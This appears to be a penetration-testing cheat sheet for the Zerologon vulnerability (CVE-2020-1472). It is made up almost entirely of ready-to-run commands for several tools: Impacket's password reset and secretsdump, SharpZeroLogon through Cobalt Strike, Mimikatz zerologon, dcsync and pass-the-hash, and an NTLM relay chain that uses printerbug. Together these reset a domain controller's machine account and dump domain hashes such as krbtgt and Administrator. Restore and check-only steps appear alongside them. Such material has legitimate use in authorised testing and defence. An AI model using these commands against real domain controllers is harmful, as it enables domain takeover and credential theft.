## CVE-2020-1472 Zerologon

#### As the name implies, if the machine is vulnerable to Zerologon, it can reset the administrator credentials to an empty string, then attempt to dump the hashes via secretsdump without having to use a password.

### Tools: Impacket-secretsdump, https://github.com/risksense/zerologon, https://github.com/SecuraBV/CVE-2020-1472

#### 1) 

    python3 set_empty_pw.py NETBIOS_NAME DC_IP 

#### 2) If attempt was successful, then: 

    impacket-secretsdump -just-dc -no-pass DOMAIN.LOCAL/NETBIOS_NAME\$DC_IP

#### 

    impacket-secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'

#### 3) When you dump the domain admin hash, you can use it to Pass-the-Hash via evil-winrm or attempt to crack it offline with hashcat

#### 4) At login, copy the SAM and SYSTEM hives to your local machine, then dump them offline (Alternative to secretsdump)

#### 5) 

    python3 reinstall_original_pw.py NETBIOS_NAME DC_IP ORIGINAL_NTLM_ADMIN_HASH (Reinstalls the original password that the admin had to prevent permanent damage on the machine)

### TIP: The LM and NTLM hashes represented in the command are actually the hashed version of empty password/string

## Alternate Method: nccfsas - .NET binary for Cobalt Strike's execute-assembly

### Tools: https://github.com/nccgroup/nccfsas

### Steps:

#### 1) 

    execute-assembly SharpZeroLogon.exe DOMAIN_CONTROLLER.LOCAL (Check)

#### 2) 

    execute-assembly SharpZeroLogon.exe DOMAIN_CONTROLLER.LOCAL -reset (Reset the machine account password)

#### 3) 

    execute-assembly SharpZeroLogon.exe DOMAIN_CONTROLLER.LOCAL -patch (Reset the password back)

## Alternate Method: CrackMapExec (Only check)

#### 1) 

    crackmapexec smb DC_IP -u USERNAME -p PASSWORD -d DOMAIN -M zerologon

## Alternate Method: Mimikatz - 2.2.0 20200917 Post-Zerologon

### Steps:

#### 1) 

    privilege::Debug

#### 2) 

    lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ (Check for CVE)

#### 3) 

    lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ /exploit (Exploit the CVE and set the computer account's password to "")

#### 4) 

    lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:krbtgt /authuser:DC01$ 

#### 

    lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:Administrator /authuser:DC01$ (Execute dcsync to extract some hashes)

#### 5) 

    sekurlsa::pth /user:Administrator /domain:LAB /rc4:HASH_NTLM_ADMIN (Pass The Hash with the extracted Domain Admin hash)

#### 6) 

    lsadump::postzerologon /target:DC_IP /account:DC01$ (Reset password. Use IP address instead of FQDN to force NTLM with Windows APIs)

### A 2nd approach to exploit zerologon is done by relaying authentication.

## Prerequisites:

 - A domain account

 - One DC running the PrintSpooler service

 - Another DC vulnerable to zerologon

 - ntlmrelayx and any tool such as printerbug.py

## Steps:

#### 1) 

    rpcdump.py 10.10.10.10 | grep -A 6 "spoolsv" (Check if one DC is running the PrintSpooler service)

#### 2) 

    ntlmrelayx.py -t dcsync://DOMAIN_CONTROLLER.LOCAL -smb2support (Setup ntlmrelay in one shell)

#### 3) 

    python3 printerbug.py 'DOMAIN.LOCAL'/joe:Password123@10.10.10.10 10.10.10.12 (Trigger printerbug in 2nd shell)

